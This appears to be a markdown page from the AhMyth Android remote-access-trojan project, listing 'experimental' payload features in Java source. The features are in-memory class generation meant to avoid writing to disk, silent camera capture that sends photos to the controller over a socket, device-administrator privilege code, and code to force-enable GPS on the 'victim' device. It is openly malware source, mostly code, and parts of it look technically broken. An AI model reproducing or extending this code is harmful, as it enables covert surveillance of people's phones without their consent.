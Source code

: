 # <div align="center">Experminetal Features</div>

A file used to store code for experimental client and server features that could be released with future releases if they prove successful.

<br>

<details>
  <summary>Experimental Client Features</summary>

#
## <div align="center">Dynamic "In-Memory at Runtime" Camera Class Generation & Loading</div>

<div align="center">An experimental feature inspired by the Android equivalent of Metasploit Framework's Meterpreter Payload.</div>
<br>

<details>
  <summary>Code</summary>
<br>

- ClassGen.java
> Responsible for Generating and Loading the "CameraManager.java" Class at runtime completely in-memory.
```java
package ahmyth.mine.king.ahmyth;

import com.squareup.javapoet.*;
import org.apache.commons.vfs2.*;
import org.apache.commons.vfs2.provider.ram.RamFileProvider;
import javax.tools.JavaCompiler;
import javax.tools.ToolProvider;
import java.io.OutputStream;
import java.lang.reflect.Method;
import dalvik.system.DexClassLoader;

public class ClassGen {
    public static void main(String[] args) {
        try {
            // Create an in-memory file system manager with RamFileProvider
            FileSystemManager fsManager = VFS.getManager();
            fsManager.addProvider("ram", new RamFileProvider());

            // Define the path to the in-memory Java source file
            String javaFilePath = "ram:///CameraManager.java";

            String camTempSourceCode = CamTemp.CAMERA_SOURCE_CODE;

            // Create an in-memory file for the Java source code
            FileObject javaFile = fsManager.resolveFile(javaFilePath);
            
            // Write the generated Java source code to the in-memory file
            try (OutputStream os = javaFile.getContent().getOutputStream()) {
                os.write(camTempSourceCode.getBytes());
            }

            // Define the path to the in-memory .dex file
            String dexPath = "ram:///CameraManager.dex";

            // Create an in-memory file for the compiled .dex
            FileObject dexFile = fsManager.resolveFile(dexPath);

            TypeSpec generatedClass = TypeSpec.classBuilder("CameraManager") // Change the class name here
                    .addCode(camTempSourceCode)
                    .build();

            JavaFile javaFileObj = JavaFile.builder("ahmyth.mine.king.ahmyth", generatedClass)
                    .build();

            String javaCode = javaFileObj.toString();

            JavaCompiler compiler = ToolProvider.getSystemJavaCompiler();
            int compilationResult = compiler.run(null, null, null, javaFilePath); // Compile the in-memory Java source file

            if (compilationResult == 0) {
                System.out.println("Compilation succeeded.");
            } else {
                System.err.println("Compilation failed.");
                System.exit(compilationResult);
            }

            // Load the compiled .dex from in-memory
            ClassLoader classLoader = new DexClassLoader(
                    dexFile.getURL().toString(),
                    null,
                    null,
                    ClassLoader.getSystemClassLoader()
            );

            executeDynamicallyGeneratedClass(classLoader);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static void executeDynamicallyGeneratedClass(ClassLoader classLoader) throws Exception {
        Class<?> generatedClass = classLoader.loadClass("ahmyth.mine.king.ahmyth.CameraManager"); // Change the class name here
        Object generatedInstance = generatedClass.getDeclaredConstructor().newInstance();
    }
}
```
<br>

- CamTemp.java
> "CameraManger" Template file required for class file generation.
```java
package ahmyth.mine.king.ahmyth;

public class CamTemp {
    public static final String CAMERA_SOURCE_CODE =
            "package ahmyth.mine.king.ahmyth;\n" +
            "import android.content.Context;\n" +
            "import android.content.pm.PackageManager;\n" +
            "import android.graphics.Bitmap;\n" +
            "import android.graphics.BitmapFactory;\n" +
            "import android.graphics.SurfaceTexture;\n" +
            "import android.hardware.Camera;\n" +
            "import android.hardware.Camera.PictureCallback;\n" +
            "import android.hardware.Camera.Parameters;\n" +
            "import org.json.JSONArray;\n" +
            "import org.json.JSONException;\n" +
            "import org.json.JSONObject;\n" +
            "import java.io.ByteArrayOutputStream;\n" +
            "public class CameraManager {\n" +
            "    private Context context;\n" +
            "    private Camera camera;\n" +
            "    public CameraManager(Context context) {\n" +
            "        this.context = context;\n" +
            "    }\n" +
            "    public void startUp(int cameraID) {\n" +
            "        camera = Camera.open(cameraID);\n" +
            "        Parameters parameters = camera.getParameters();\n" +
            "        camera.setParameters(parameters);\n" +
            "        try {\n" +
            "            camera.setPreviewTexture(new SurfaceTexture(0));\n" +
            "            camera.startPreview();\n" +
            "        } catch (Exception e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "        camera.takePicture(null, null, new PictureCallback() {\n" +
            "            @Override\n" +
            "            public void onPictureTaken(byte[] data, Camera camera) {\n" +
            "                releaseCamera();\n" +
            "                sendPhoto(data);\n" +
            "            }\n" +
            "        });\n" +
            "    }\n" +
            "    private void sendPhoto(byte[] data) {\n" +
            "        try {\n" +
            "            Bitmap bitmap = BitmapFactory.decodeByteArray(data, 0, data.length);\n" +
            "            ByteArrayOutputStream bos = new ByteArrayOutputStream();\n" +
            "            bitmap.compress(Bitmap.CompressFormat.JPEG, 20, bos);\n" +
            "            JSONObject object = new JSONObject();\n" +
            "            object.put(\"image\", true);\n" +
            "            object.put(\"buffer\", bos.toByteArray());\n" +
            "            IOSocket.getInstance().getIoSocket().emit(\"x0000ca\", object);\n" +
            "        } catch (JSONException e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "    }\n" +
            "    private void releaseCamera() {\n" +
            "        if (camera != null) {\n" +
            "            camera.stopPreview();\n" +
            "            camera.release();\n" +
            "            camera = null;\n" +
            "        }\n" +
            "    }\n" +
            "    public JSONObject findCameraList() {\n" +
            "        if (!context.getPackageManager().hasSystemFeature(PackageManager.FEATURE_CAMERA)) {\n" +
            "            return null;\n" +
            "        }\n" +
            "        try {\n" +
            "            JSONObject cameras = new JSONObject();\n" +
            "            JSONArray list = new JSONArray();\n" +
            "            cameras.put(\"camList\", true);\n" +
            "            int numberOfCameras = Camera.getNumberOfCameras();\n" +
            "            for (int i = 0; i < numberOfCameras; i++) {\n" +
            "                Camera.CameraInfo info = new Camera.CameraInfo();\n" +
            "                Camera.getCameraInfo(i, info);\n" +
            "                JSONObject jo = new JSONObject();\n" +
            "                jo.put(\"id\", i);\n" +
            "                if (info.facing == Camera.CameraInfo.CAMERA_FACING_FRONT) {\n" +
            "                    jo.put(\"name\", \"Front\");\n" +
            "                } else if (info.facing == Camera.CameraInfo.CAMERA_FACING_BACK) {\n" +
            "                    jo.put(\"name\", \"Back\");\n" +
            "                } else {\n" +
            "                    jo.put(\"name\", \"Other\");\n" +
            "                }\n" +
            "                list.put(jo);\n" +
            "            }\n" +
            "            cameras.put(\"list\", list);\n" +
            "            return cameras;\n" +
            "        } catch (JSONException e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "        return null;\n" +
            "    }\n" +
            "}\n" +
            "}";
}
```

</details>

<details>
  <summary>Explanation</summary>
  <br>

The provided code in the dropdown tab below this one, performs all of the following operations listed below, dynamically in memory, meaning that nothing gets written to disk (aka the Android fileSystem)
  
  <br>

## <div align="center"><ins>Generation Phase</div></ins>
1. **In memory:** Creates an in-memory file system manager with the *RamFileProvider*.
2. **In memory:** Defines the path to the in-memory Java source file `("ram:///CameraManager.java")`.
3. **In memory:** Retrieves the source code for the `"CameraManager"` class from `"CamTemp.CAMERA_SOURCE_CODE."`
4. **In memory:** Creates an in-memory file to store the Java source code.
5. **In memory:** Writes the generated Java source code to the in-memory file.

## <div align="center"><ins>Loading Phase</div></ins>
6. **In memory:** Defines the path to the in-memory *.dex* file `("ram:///CameraManager.dex")`.
7. **In memory:** Creates an in-memory file to store the compiled *.dex* file.
8. **In memory:** Defines the structure and content of the `"CameraManager"` class using *JavaPoet*.
9. **In memory:** Converts the JavaPoet representation of the class to a string.
10. **In memory:** Compiles the in-memory Java source code into a .dex file using the *Java Compiler*.
11. **In memory:** Checks the compilation result, and if successful, prints "Compilation succeeded."
12. **In memory:** Loads the compiled .dex file into memory using a *DexClassLoader*.
13. **In memory:** Attempts to create an instance of the dynamically generated `"CameraManager"` class in memory.

**Reiteration:**

In both the Generation and Loading Phases, most actions are performed in memory. The code dynamically generates, compiles, and loads the `"CameraManager"` class along with its source code and compiled *.dex* file, all within the program's memory space. The only actions not performed in memory are related to the file system, where it writes the generated Java source code and reads the compiled *.dex* file.

</details>
<br>

## <div align="center">Device Admin Privileges</div>

This will hopefully give the AhMyth Payload Administrator Privileges for future features.

<details>
  <summary>Code</summary>
  <br>

- DeviceAdmin.java
```java
package ahmyth.mine.king.ahmyth;

import android.app.admin.DeviceAdminReceiver;

import android.app.admin.DevicePolicyManager;

import android.content.ComponentName;

import android.content.Context;

public class DeviceAdmin extends DeviceAdminReceiver {

    static DevicePolicyManager getDPM(Context context) {

        return (DevicePolicyManager)context.getSystemService(Context.DEVICE_POLICY_SERVICE);

    }

    public static ComponentName getComponentName(Context context) {

        return new ComponentName(context.getApplicationContext(), DeviceAdmin.class);

    }

}
```
</details>
<br>
  
## <div align="center">Automatically Enable Victim GPS</div>

This will hopefully allow automatic enabling of the victim device's GPS, Device Administration Privileges are required for this to work, hence the need for the **DeviceAdmin.java** code above.

<details>
  <summary>Code</summary>
  <br>
  
- LocationManager.java
```java
    private void activateGps(Context context) {

        SharedPreferences prefs = PreferenceManager.getDefaultSharedPreferences(context);

        if (!prefs.getBoolean("allow_location_modechange", false))

            return;

        if (!DeviceAdmin.getDPM(context).isAdminActive(DeviceAdmin.getComponentName(context)))

            return;

        if (!DeviceAdmin.getDPM(context).isDeviceOwnerApp(context.getApplicationContext().getPackageName()))

            return;

        DeviceAdmin.getDPM(context).setSecureSetting(

                DeviceAdmin.getComponentName(context),

                Settings.Secure.LOCATION_MODE,

                Integer.toString(Settings.Secure.LOCATION_MODE_HIGH_ACCURACY)

        );

        Log.d("Done", "Forcefully enabled GPS");

    }

    private void getLocation(Context context) throws SecurityException {

        activateGps(context);

        LocationManager locationManager = (LocationManager) context.getApplicationContext().getSystemService(Context.LOCATION_SERVICE);

        locationManager.requestSingleUpdate(LocationManager.GPS_PROVIDER, null);

    }
```
<br>

- Settings.java
```java
        perms.put("allow_location", new String[]{

                Manifest.permission.ACCESS_FINE_LOCATION,

        });

        perms.put("allow_location_modechange", new String[]{

                Manifest.permission.BIND_DEVICE_ADMIN,

        });
```

</details>
<br>

</details>

#

<details>
  <summary>Experminetal Server Features</summary>

### Nothing to show.

</details>
